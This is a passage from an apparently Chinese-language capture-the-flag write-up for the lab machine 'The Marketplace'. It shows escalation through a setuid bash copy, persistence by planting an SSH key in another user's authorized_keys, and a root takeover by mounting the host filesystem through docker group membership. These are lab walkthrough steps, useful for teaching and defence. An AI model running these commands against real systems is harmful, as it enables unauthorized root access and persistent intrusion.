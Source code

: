 使用/tmp/bash -p：

    jake@the-marketplace:~$ /tmp/bash -p
    bash-4.4$ id
    uid=1000(jake) gid=1000(jake) euid=1002(michael) egid=1002(michael) groups=1002(michael),1000(jake)

## 篡改ssh authorized_keys

攻击机生成ssh密钥

    ssh-keygen

将公钥复制到目标/home/miachel/.ssh/authorized_keys

    mkdir ./.ssh
    touch ./.ssh/authorized_keys
    vim ./.ssh/authorized_keys

然后攻击机ssh登录：

    ┌──(root🐦kali)-[/home/sugobet]
    └─# ssh michael@10.10.215.254 -i id_rsa  

成功

## Docker

还记得刚刚端口扫描的结果，有一个32768端口是开启的

能猜到可能是docker，id更验证了我的想法：

    michael@the-marketplace:~$ id
    uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)

查看image:

    michael@the-marketplace:~$ docker image ls
    REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
    themarketplace_marketplace   latest              6e3d8ac63c27        2 years ago         2.16GB
    nginx                        latest              4bb46517cac3        2 years ago         133MB
    node                         lts-buster          9c4cc2688584        2 years ago         886MB
    mysql                        latest              0d64f46acfd1        2 years ago         544MB
    alpine                       latest              a24bb4013296        2 years ago         5.57MB

查看正在运行的镜像：

    michael@the-marketplace:~$ docker ps
    CONTAINER ID        IMAGE                        COMMAND                  CREATED             STATUS              PORTS                     NAMES
    49ecb0cfeba8        nginx                        "/docker-entrypoint.…"   2 years ago         Up 2 hours          0.0.0.0:80->80/tcp        themarketplace_nginx_1
    3c6f21da8043        themarketplace_marketplace   "bash ./start.sh"        2 years ago         Up 2 hours          0.0.0.0:32768->3000/tcp   themarketplace_marketplace_1
    59c54f4d0f0c        mysql                        "docker-entrypoint.s…"   2 years ago         Up 2 hours          3306/tcp, 33060/tcp       themarketplace_db_1

运行alpine镜像并将宿根挂载到容器的/tmp：

    docker run -v /:/tmp -it alpine:latest sh   

root.txt:

    / # find / -name root.txt 2>/dev/null
    /tmp/root/root.txt
    / # cat /tmp/root/root.txt
